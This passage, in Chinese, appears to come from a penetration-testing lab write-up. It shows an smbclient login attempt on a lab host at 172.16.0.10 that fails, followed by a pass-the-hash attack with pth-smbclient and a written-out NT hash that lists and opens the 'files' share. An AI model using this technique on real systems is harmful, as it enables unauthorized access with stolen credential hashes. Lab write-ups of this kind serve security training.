 使用smbclient连接该IP,尝试使用`tiger`尝试连接失败：

```bash
smbclient -L 172.16.0.10 -U arm554
```

![Alt text](/img/game/TESTLAB/TESTLAB11/1512934174843.png)


进行hash传递：

```bash
root@kali:~# pth-smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E
```

![Alt text](/img/game/TESTLAB/TESTLAB11/1512935252882.png)

爆出共享的文件，尝试直接连接到`files`文件夹，然后连接成功：

```bash
root@kali:~# pth-smbclient --user=arm554 --pw-nt-hash -m smb3 \\\\172.16.0.10\\files 6361DEA164EE8FE91FE7B117FBC9CA5E
```
